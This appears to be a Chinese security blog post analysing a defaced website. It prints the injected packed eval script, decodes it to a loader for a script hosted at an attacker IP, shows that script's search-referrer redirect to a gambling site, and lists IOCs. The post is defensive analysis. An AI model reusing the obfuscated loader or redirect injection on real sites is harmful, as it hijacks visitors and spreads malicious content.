

#### 一处被篡改网站
本次样本概况页面篡改菠菜内容，同时加入eval加密js脚本，经过一次跳转及2次收集用户统计信息之后跳转到菠菜网站。

<!--more-->


本次样本如下：
```html
<title>菠菜内容</title>
    <meta name="keywords" content="菠菜内容" />
    <meta name="description" content="菠菜内容"/>
<script>
var _hmt = _hmt || [];
(function() {
  var hm = document.createElement("script");
  hm.src = "https://hm.baidu.com/hm.js?9a4c62a1985e8fbd8d0ce7c1a54070d1";
  var s = document.getElementsByTagName("script")[0]; 
  s.parentNode.insertBefore(hm, s);
})();
</script>
<script type="text/javascript">
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('p["\\s\\u\\7\\m\\q\\6\\v\\0"]["\\j\\1\\a\\0\\6"](\'\\k\\2\\7\\1\\a\\5\\0\\9\\0\\t\\5\\6\\c\\4\\0\\6\\w\\0\\3\\e\\h\\r\\h\\2\\7\\1\\a\\5\\0\\4\\9\\1\\6\\d\\c\\4\\D\\b\\C\\b\\d\\d\\b\\j\\4\\9\\2\\1\\7\\c\\4\\F\\0\\0\\5\\n\\3\\3\\E\\f\\g\\8\\g\\f\\8\\B\\8\\l\\y\\n\\x\\o\\o\\l\\3\\e\\2\\3\\A\\z\\m\\1\\8\\e\\2\\4\\9\\i\\k\\3\\2\\7\\1\\a\\5\\0\\i\');',42,42,'x74|x72|x73|x2F|x22|x70|x65|x63|x2E|x20|x69|x6F|x3D|x6C|x6A|x30|x33|x61|x3E|x77|x3C|x39|x75|x3A|x38|window|x6d|x76|x64|x79|x6f|x6e|x78|x37|x36|x43|x53|x34|x66|x6E|x31|x68'.split('|'),0,{}))
</script>
......
```
#### 页面篡改分析
发现其中的篡改信息，以及两处js脚本插入。其中菠菜信息UTF-8的反转译可得：


两个脚本一个是百度统计https://hm.baidu.com/hm.js?9a4c62a1985e8fbd8d0ce7c1a54070d1， 另一个是eval加密如下：

```javascaript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('p["\\s\\u\\7\\m\\q\\6\\v\\0"]["\\j\\1\\a\\0\\6"](\'\\k\\2\\7\\1\\a\\5\\0\\9\\0\\t\\5\\6\\c\\4\\0\\6\\w\\0\\3\\e\\h\\r\\h\\2\\7\\1\\a\\5\\0\\4\\9\\1\\6\\d\\c\\4\\D\\b\\C\\b\\d\\d\\b\\j\\4\\9\\2\\1\\7\\c\\4\\F\\0\\0\\5\\n\\3\\3\\E\\f\\g\\8\\g\\f\\8\\B\\8\\l\\y\\n\\x\\o\\o\\l\\3\\e\\2\\3\\A\\z\\m\\1\\8\\e\\2\\4\\9\\i\\k\\3\\2\\7\\1\\a\\5\\0\\i\');',42,42,'x74|x72|x73|x2F|x22|x70|x65|x63|x2E|x20|x69|x6F|x3D|x6C|x6A|x30|x33|x61|x3E|x77|x3C|x39|x75|x3A|x38|window|x6d|x76|x64|x79|x6f|x6e|x78|x37|x36|x43|x53|x34|x66|x6E|x31|x68'.split('|'),0,{}))
```
经过解密：
```javascript
window["document"]["write"]('<script type="text/javascript" rel="nofollow" src="http://103.30.4[.]96:7889/js/SCur.js" ></script>');
```
追溯103.30.4[.]96:7889/js/SCur.js源码如下：
```javascript
var _hmt = _hmt || [];
(function() {
  var hm = document.createElement("script");
  hm.src = "https://hm.baidu.com/hm.js?9a4c62a1985e8fbd8d0ce7c1a54070d1";
  var s = document.getElementsByTagName("script")[0]; 
  s.parentNode.insertBefore(hm, s);
})();

document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
document.writeln("location.href=\"http://103.37.233.13:888/bcs.html\";");
document.writeln("</script>");
```
分析可知该脚本加载之后，将在源业务页面插入一个百度统计以及一个跳转``http://103.37.233.13:888/bcs.html``跳转条件是当访问业务页面的referer中还有baidu/sogou/soso/sm/uc/bing/yahoo/so的字符。

#### 跳转过程分析
对该网页源码进行分析：
```html
<script language="javascript">
setTimeout(function(){
 var arr=["http://www[.]59759l[.]vip/","http://www[.]59759l[.]vip/"];
    window.location.href=arr[parseInt(Math.random()*arr.length)];
 },0);
</script>
......
```
同时在跳转页面发现了51yes的统计代码：
``http://count50.51yes.com/click.aspx?id=503589630&logo=1``源码如下：
```javascript
function y_gVal(iz)
{var endstr=document.cookie.indexOf(";",iz);if(endstr==-1) endstr=document.cookie.length;return document.cookie.substring(iz,endstr);}
function y_g(name)
{var arg=name+"=";var alen=arg.length;var clen=document.cookie.length;var i=0;var j;while(i<clen) {j=i+alen;if(document.cookie.substring(i,j)==arg) return y_gVal(j);i=document.cookie.indexOf(" ",i)+1;if(i==0) break;}return null;}
function cc_k()
{var y_e=new Date();var y_t=93312000;var yesvisitor=1000*36000;var yesctime=y_e.getTime();y_e.setTime(y_e.getTime()+y_t);var yesiz=document.cookie.indexOf("cck_lasttime");if(yesiz==-1){document.cookie="cck_lasttime="+yesctime+"; expires=" + y_e.toGMTString() +  "; path=/";document.cookie="cck_count=0; expires=" + y_e.toGMTString() +  "; path=/";return 0;}else{var y_c1=y_g("cck_lasttime");var y_c2=y_g("cck_count");y_c1=parseInt(y_c1);y_c2=parseInt(y_c2);y_c3=yesctime-y_c1;if(y_c3>yesvisitor){y_c2=y_c2+1;document.cookie="cck_lasttime="+yesctime+"; expires="+y_e.toGMTString()+"; path=/";document.cookie="cck_count="+y_c2+"; expires="+y_e.toGMTString()+"; path=/";}return y_c2;}}
var yesdata;
yesdata='&refe='+escape(document.referrer)+'&location='+escape(document.location)+'&color='+screen.colorDepth+'x&resolution='+screen.width+'x'+screen.height+'&returning='+cc_k()+'&language='+navigator.systemLanguage+'&ua='+escape(navigator.userAgent);
document.write('<a href="http://countt.51yes.com/index.aspx?id=503589630" target=_blank></a>');document.write('<iframe MARGINWIDTH=0 MARGINHEIGHT=0 HSPACE=0 VSPACE=0 FRAMEBORDER=0 SCROLLING=no src=http://count50.51yes.com/sa.htm?id=503589630'+yesdata+' height=0 width=0></iframe>');
```
对页面访问者信息进行收集，同上一篇文中提到的一样。统计并页面进行跳转直接引流到博彩页面


#### IOCs
``https://hm.baidu.com/hm.js?9a4c62a1985e8fbd8d0ce7c1a54070d1``
``http://103.30.4[.]96:7889/js/SCur.js``
``http://103.37.233[.]13:888/bcs.html``
``http://www.59759l[.]vip``
``http://countt.51yes[.]com/index.aspx?id=503589630``
